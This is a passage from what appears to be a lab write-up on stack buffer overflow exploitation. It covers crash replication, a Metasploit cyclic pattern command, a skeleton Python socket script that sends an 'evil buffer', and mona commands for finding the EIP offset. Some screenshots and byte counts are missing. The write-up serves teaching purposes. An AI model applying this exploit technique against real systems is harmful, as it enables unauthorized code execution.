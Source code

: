 The app has crashed with:

Notice that the debugger alerted for an access violation:

# 2. Replicating the crash and controlling EIP
Before moving on, I had to discover if I was able to control the EIP. This is essential as by controlling it I would be able to change the program's flow.
As the fuzzer indicated that the app has crashed with `xxx` bytes, I've add `400` more bytes to it, for a total of `xx` bytes.

Then, with this number of bytes, I've generated a pattern with the msf script:
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`
The generated pattern was the following:

Then to use this patter, I've made use of another python script that I've called `exploit.py`. Its content:
```python
#!/usr/bin/python3

import socket

ip = "MACHINE IP"
port = 1337

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

1. Inside this code, put the generated pattern in the `payload` variable.

2. Then, open again the application within ImmunityDebugger and run the exploit.

3. Switch to the debugging machine, launch from ImmunityDebugger command bar this mona command to look for the EIP offset:
`!mona findmsp -distance xxx+400`
> By running it, the log window should show up, if not, you can pick it from the Window tab in the menu bar
